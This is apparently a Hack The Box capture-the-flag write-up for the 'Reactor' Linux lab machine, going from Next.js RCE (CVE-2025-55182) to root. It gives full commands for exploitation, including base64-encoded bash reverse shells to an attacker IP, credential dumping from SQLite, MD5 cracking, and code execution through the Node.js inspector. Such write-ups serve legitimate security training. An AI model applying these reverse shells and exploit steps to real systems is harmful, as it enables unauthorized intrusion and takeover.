

# HTB: Reactor (Easy)

> **Hack The Box Writeup**
>
> **Machine:** Reactor  
> **Difficulty:** Easy  
> **Operating System:** Linux  
> **Date Solved:** 2026-05-24

---

# Executive Summary

| Field | Value |
|---------|---------|
| Machine Name | Reactor |
| OS | Linux |
| Difficulty | Easy |
| Main Vulnerability | Remote Code Execution (RCE) |
| Initial Access | Next.js RCE |
| Privilege Escalation | Node.js Debug Port Abuse |

---

# Attack Path

```text
Reconnaissance
    ↓
Next.js Version Identification
    ↓
CVE-2025-55182 RCE
    ↓
Reverse Shell as node
    ↓
SQLite Database Extraction
    ↓
MD5 Hash Cracking
    ↓
SSH Access as engineer
    ↓
Node Debug Port Discovery (9229)
    ↓
Node Inspector Abuse
    ↓
Root Shell
```

---

# 1. Enumeration & Reconnaissance

## Nmap Scan

```bash
sudo nmap -sC -sV -p- -sS 10.129.6.62
```

### Results

- **22/tcp** → SSH
- **3000/tcp** → Web Application (Next.js)

Add the target domain:

```bash
echo "10.129.6.62 reactor.htb" | sudo tee -a /etc/hosts
```

---

## Technology Fingerprinting

```bash
whatweb http://reactor.htb:3000/
```

Output:

```text
http://reactor.htb:3000/ [200 OK]
Title[ReactorWatch | Core Monitoring System]
X-Powered-By[Next.js]
```

Using Wappalyzer revealed:

- **Next.js Version:** 15.0.3



### Observations

The dashboard was accessible without authentication and disclosed information about personnel working at the facility:

1. Dr. Elena Rodriguez (Lead Nuclear Engineer)
2. Marcus Kim (Senior Technician)
3. James Thompson (Safety Officer)

---

# 2. Directory Enumeration

```bash
feroxbuster -u http://reactor.htb:3000 -C 404 \
--wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
```

Interesting discovery:

```text
308 GET http://reactor.htb:3000/cgi-bin/
```

---

# 3. Initial Foothold – Next.js RCE

Research revealed a Remote Code Execution vulnerability affecting **Next.js 15.0.3**.

## Exploit Setup

```bash
git clone https://github.com/SpeatX/React2Shell-CVE-2025-55182.git

cd React2Shell-CVE-2025-55182

pip3 install requests
```

## Verify Code Execution

```bash
python3 exploit.py exec \
-t http://reactor.htb:3000 \
-c "whoami"
```

Result:

```text
node
```

Remote command execution was confirmed.

---

# 4. Reverse Shell

## Generate Payload

```bash
echo 'bash -i >& /dev/tcp/10.10.15.120/9001 0>&1' | base64 -w 0
```

## Start Listener

```bash
nc -nvlp 9001
```

## Execute Reverse Shell

```bash
python3 exploit.py exec \
-t http://reactor.htb:3000 \
-c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4xMjAvOTAwMSAwPiYxCg== | base64 -d | bash"
```

### Shell Obtained

```bash
node@reactor:/opt/reactor-app$
```

---

# 5. Looting the Application

Contents of the application directory:

```bash
ls
```

```text
app
next.config.js
node_modules
package.json
package-lock.json
reactor.db
```

The file **reactor.db** appeared interesting.

---

## Database Analysis

```bash
sqlite3 /opt/reactor-app/reactor.db
```

List tables:

```sql
.tables
```

```text
sensor_logs
users
```

Dump user records:

```sql
SELECT * FROM users;
```

Output:

```text
1|admin|a203b22191d7<SNIP>70ada5c101b17b8|administrator|admin@reactor.htb
2|engineer|39d97110eafe2a9a6<SNIP>12cd271e8e|operator|engineer@reactor.htb
```

An MD5 hash belonging to the **engineer** user was identified.

---

# 6. Password Cracking

Save the engineer hash to a file and run:

```bash
john hash /usr/share/wordlists/rockyou.txt --format=Raw-MD5
```

The password was successfully recovered.

---

# 7. SSH Access

```bash
ssh engineer@reactor.htb
```

Retrieve the user flag:

```bash
cat /home/engineer/user.txt
```

---

# 8. Internal Enumeration

Check listening services:

```bash
ss -tunlp
```

Interesting finding:

```text
127.0.0.1:9229
```

This port is used by the **Node.js Inspector / Debugger**.

---

# 9. Privilege Escalation

## Port Forwarding

Forward the internal debug port to the attacker machine.

After forwarding, connect to the Node debugger:

```bash
node inspect 127.0.0.1:9229
```

Output:

```text
connecting to 127.0.0.1:9229 ... ok
debug>
```

---

## Execute Commands Through Node Inspector

Open a listener:

```bash
nc -nvlp 9002
```

Execute:

```javascript
exec("process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/10.10.15.120/9002 0>&1\"').toString()")
```

---

## Root Shell

Listener receives a connection:

```bash
root@reactor:/#
```

Retrieve the root flag:

```bash
cat /root/root.txt
```

---

# Key Findings

| Finding | Impact |
|-----------|-----------|
| Unauthenticated dashboard | Information disclosure |
| Next.js 15.0.3 | Vulnerable to RCE |
| Database accessible by application user | Credential exposure |
| Weak MD5 password hash | Easily cracked |
| Exposed Node.js debug port | Privilege escalation |
| Debugger running as root | Full system compromise |

---

# Lessons Learned

- Always verify framework versions during reconnaissance.
- Information disclosure frequently provides valuable context.
- Application databases often contain reusable credentials.
- Debug ports should never be exposed on production systems.
- Weak password hashing algorithms such as MD5 remain dangerous.

---

# Flags

## User Flag

```text
/home/engineer/user.txt
```

## Root Flag

```text
/root/root.txt
```

---

**Machine:** Reactor  
**Difficulty:** Easy  
**Status:** Owned
